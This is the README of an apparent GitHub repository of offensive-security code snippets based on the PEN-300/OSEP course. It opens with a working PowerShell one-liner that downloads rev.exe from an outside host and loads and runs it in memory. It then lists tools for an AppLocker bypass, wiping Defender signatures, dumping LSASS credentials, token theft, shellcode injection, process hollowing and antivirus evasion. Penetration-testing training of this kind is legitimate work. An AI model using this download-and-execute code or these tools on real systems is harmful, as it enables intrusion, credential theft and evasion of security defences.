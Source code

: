 # OSEP Code Snippets
Code examples are provided as-is, without any form of warranty. Based on Offensive Security's [PEN-300](https://www.offensive-security.com/pen300-osep/) course.

Classes and methods are public, so most binaries should allow for reflective loading as below.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main("".Split())
```

### Contents
|Snippet Name|Description|
|--|--|
| AppLocker Bypass PowerShell Runspace (C#) | Base binary for an applocker bypass using a combination of `CertUtil`, `BitsAdmin`, and `InstallUtil`. See `README.md` for details.|
| Fileless Lateral Movement (C#) | Wipes Windows Defender signatures on the remote host and uses a PSExec-like method (except using an existing process) to achieve lateral movement. Takes arguments for the target, the target service, and the target binary to run. Note that a non-critical service should be chosen, such as `SensorService`. |
|Linux Shellcode Loaders (C) |Various C-based shellcode loaders, including base binaries for library hijacking.|
|MiniDump (C# & PS1) |A simple binary to Dump LSASS to `C:\Windows\Tasks\lsass.dmp`. Also provided as native PowerShell script.|
|MSSQL (C#)|An example binary that includes a variety of discussed MSSQL interactions. Change the code to include only what you need.|
|PrintSpoofer.NET (C#)|Steals the token of the incoming authentication forced with the [PrintSpooler exploit](https://github.com/leechristensen/SpoolSample), and use that token to run a given binary. Modified to not require an interactive logon session. Takes arguments for the pipe name and binary to run.|
|ROT Shellcode Encoder (C#)|A simple binary to apply state-of-the-art ROT encoding to obfuscate the shellcode. It takes an argument for the number of rotations.|
|Sections Shellcode Process Injector (C#)|Injects and runs shellcode using `NtCreateSection`, `NtMapViewOfSection`, `NtUnMapViewOfsection` and `NtClose` instead of the "standard" method.|
|Shellcode Process Hollowing (C#)|Hollows a `svchost` process and runs the shellcode from there. Scores 0/68 on VirusTotal at the time of writing.|
|Shellcode Process Injector (C# & PS1) | Simple shellcode runner that applies process injection. Accepts an argument for the process to inject into. If no argument is given, it attempts to pick a suitable process based on privilege level. Also provided as native PowerShell script (though it is a bit simpler).|
|Simple Shellcode Runner (C# & PS1 & VBA)|The simplest of shellcode runners. Also provided as native PowerShell and VBA scripts.|
|XOR Shellcode Encoder (C#)|A simple binary to apply state-of-the-art XOR encoding to obfuscate the shellcode.|

